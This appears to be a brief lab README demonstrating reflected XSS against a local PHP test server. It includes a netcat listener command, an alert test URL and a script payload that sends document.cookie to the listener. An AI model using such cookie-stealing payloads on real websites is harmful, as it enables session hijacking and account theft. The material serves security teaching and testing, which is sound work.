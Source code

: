 # Reflective XSS

1. Start the target server: `php -S localhost:8000`
2. Start the evil server: `nc -v -l -p 9999`

3. Make sure xss works:
  * `http://localhost:8000/target.php?foo=<script>alert(1);</script>`

4. Exploits:
  * steal cookie: `<script>new Image().src="http://localhost:9999/"%2bdocument.cookie;</script>`

Notes:
* see cheatsheet for xss snippits: [https://html5sec.org/](cheatsheet)
